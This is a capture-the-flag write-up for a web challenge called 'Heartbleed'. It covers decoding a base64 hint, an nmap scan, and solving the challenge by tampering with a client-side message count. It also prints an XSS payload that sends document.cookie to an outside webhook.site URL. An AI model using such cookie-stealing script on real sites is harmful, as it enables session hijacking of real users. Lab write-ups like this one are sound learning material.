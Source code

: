 ```yaml
---
title: Heartbleed
description: web
---
```


# Heartbleed

Note: You may run these commands on one or two VMs.

if we open <target>.js, we get the following:

function callme() {
  console.log("UmVtZW1iZXIsIGEgc2VydmVyIHNob3VsZCBuZXZlciBibGluZGx5IHRydXN0IGNsaWVudHMnIGlucHV0IC0gZXZlbiBpZiB0aGUgaW5wdXQgaXMgZ2VuZXJhdGVkIGJ5IGEgc2NyaXB0Lg==");
}

document.getElementById('message').onkeyup = function () {
  message_count = this.value.length;
  document.getElementById("message_count").value = message_count;
  document.getElementById('count').innerHTML = message_count;
};

from base64 we get:
Remember, a server should never blindly trust clients' input - even if the input is generated by a script.

this neans we should find a backend and try to send it inputs.

Also we get a xss to show up using <script>alert(1)</script>

```
<script>
  var img = new Image();
  img.src = 'https://webhook.site/<url>?cookie=' + document.cookie;
</script>
```

and we get a get request.

However no luck from this as it is not a flag.

 nmap -sV -sC <target>.com

Not shown: 996 filtered tcp ports (no-response)
PORT     STATE SERVICE  VERSION
80/tcp   open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
443/tcp  open  ssl/http Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
| ssl-cert: Subject: commonName=<target>.com
| Subject Alternative Name: DNS:<target>.com, DNS:*.<target>.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
8080/tcp open  http     Cloudflare http proxy
|_http-server-header: cloudflare
|_http-title: Smash - Bootstrap Business Template
8443/tcp open  ssl/http Cloudflare http proxy
| ssl-cert: Subject: commonName=<target>.com
| Subject Alternative Name: DNS:<target>.com, DNS:*.<target>.com
| Not valid before: 2025-01-06T20:25:26
|_Not valid after:  2025-04-06T21:16:18
|_http-server-header: cloudflare
|_http-title: Site doesn't have a title (text/plain; charset=UTF-8).

And it is behind a cloudflare, which I will not try to test.

None of these worked, but then I noticed there was a message count. I tried to change this value to something else and see what would happen. 

![alt text](/images/heartbleed/image-1.png)
![alt text](/images/heartbleed/image-2.png)

I found the flag by changing the value of this message count. 

